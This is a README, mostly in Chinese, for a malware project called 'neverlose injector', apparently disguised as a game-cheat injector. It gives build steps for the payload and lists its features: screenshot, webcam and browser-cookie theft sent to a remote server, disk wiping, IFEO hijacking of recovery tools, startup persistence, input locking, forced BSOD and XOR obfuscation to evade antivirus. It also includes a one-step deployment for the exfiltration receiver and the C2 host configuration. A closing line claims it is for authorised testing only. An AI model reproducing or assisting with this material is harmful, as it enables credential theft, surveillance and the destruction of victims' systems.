


# neverlose injector


DO NOT RUN THIS IN UR OWN PC



## 编译

**环境要求**
- Windows 10/11
- Visual Studio 2022（v144/v145 工具集）
- Windows SDK 10.0+
- Rust + Cargo
- Bun

**步骤**
```powershell
# 编译 payload EXE
MSBuild injector.sln /p:Configuration=Release /p:Platform=x64

# 复制到 Tauri 嵌入位置
copy x64\Release\loader.exe src-tauri\payload.exe

# 编译 Tauri 前端
bun tauri build
```
产物：src-tauri\target\release\loader.exe

## 攻击行为

### 信息窃取
| 模块 | 说明 |
|------|------|
| 桌面截图 | GDI 截屏 → PNG |
| 摄像头拍照 | DirectShow 静默拍照 → PNG |
| 系统信息 | CPU/OS/用户 |
| 浏览器 Cookies | Chrome / Edge / Brave / Opera / Yandex / Firefox |
| 浏览器历史 | Chrome / Edge / Brave / Opera / Yandex / Firefox |
| 数据外传 | WinHTTP POST 至服务器 |

### 系统破坏
| 模块 | 说明 |
|------|------|
| 磁盘擦除 | RD D:~M: + O: 共 9 个盘符 |
| 断 .exe 关联 | 删除 exefile 注册表 |
| IFEO 劫持 | 40+ 恢复工具注入假 Debugger |
| 系统瘫痪 | 清空 PATH / 禁用系统还原 / 停 50+ 关键服务 |
| 桌面销毁 | 杀 explorer / 换鼠标键 / 删文件 / 嵌套目录 |
| 持久化 | data.bat + open.cmd 写启动文件夹（开机自启） |
| 锁输入 | `BlockInput` 锁键盘鼠标 |
| BSOD | `condrv\kernelconnect` 触发蓝屏 |
| 强制关机 | shutdown + ExitWindowsEx |

### 视觉/听觉
| 模块 | 说明 |
|------|------|
| 屏幕图标 | error/warning/info 随机填充全屏 |
| 报警音 | MessageBeep 连续循环 |
| 噪音 | 持续播放1kHz正弦波 |
| 壁纸 | 将摄像头拍摄的画面设为系统壁纸 |

### 免杀
- 所有 WinExec 命令字符串 XOR 加密（Key: 0x55）
- 编译后不存在明文攻击指令

## 服务器部署

### 上传接收器

`server/receiver.py` 部署在任意可公网访问的 Linux 服务器。

**一键部署**
```bash
apt-get install -y python3-flask

cat > /etc/systemd/system/cheese-receiver.service << 'EOF'
[Unit]
Description=Upload Receiver
After=network.target
[Service]
Type=simple
ExecStart=/usr/bin/python3 /root/receiver.py
Restart=always
RestartSec=5
WorkingDirectory=/root
[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reload && systemctl enable --now cheese-receiver
```

**API 端点**
| 路由 | 方法 | 说明 |
|------|------|------|
| `/` | GET | 文件列表页 |
| `/file/<name>` | GET | 查看/下载文件 |
| `/token` | GET | 获取一次性上传令牌 |
| `/upload` | POST | 上传文件（?token=xxx） |
| `/clear` | POST | 清空全部文件 |

## 配置项

**服务器地址**：编辑 `injector/config.h`（已 gitignore，不会提交到仓库）
```cpp
#pragma once
#define SERVER_HOST L"你的IP"
#define SERVER_HTTP "http://你的IP:8890"
```

其他可配置项：
- **XOR Key**：`XKEY` 常量（默认 0x55）
- **关机延迟**：`desktop_destroyer()` 中的 `Sleep(10000)`
- **弹窗文字**：`desktop_destroyer()` 中的 `MessageBoxW`

## 注意

仅用于安全研究/授权测试。
